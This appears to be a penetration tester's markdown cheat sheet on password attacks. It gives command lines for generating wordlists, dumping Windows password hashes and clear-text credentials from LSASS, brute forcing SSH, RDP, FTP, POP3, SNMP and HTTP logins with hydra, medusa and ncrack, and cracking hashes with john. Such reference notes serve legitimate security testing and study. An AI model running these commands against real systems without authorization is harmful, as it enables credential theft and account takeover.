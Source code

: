 ### Password file generator

#### crunch: 
- is a wordlist generator where you can specify a standard character set or a character set you specify.

##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
##### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
##### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
------------------------------------------------------------------------------------------------------------------------
### Windows password 

#### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------

### Password Profiling

#### cewl
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------  
  
### Password Cracking

#### HTTP Brute force attack
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP Brute force attack
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP Brute force attack
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH Brute force attack
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP Brute force attack
- hyrda -L [user_file] -p [password] [victim_ip] ftp

#### POP3 Brute force attack
- hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

##### Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
------------------------------------------------------------------------------------------------------------------------

### Password Hash Attack

#### Hash identifier
 - usage: hash-identifier
 
#### MD5
- john --format=raw-md5 --wordlist=rockyou.txt [hash.file]

#### SHA1
- john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]

#### SHA224
- john --format=raw-sha224 --wordlist=rockyou.txt [hash.file]

#### SHA512
- john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
------------------------------------------------------------------------------------------------------------------------

### Pass the hash

# //TODO!
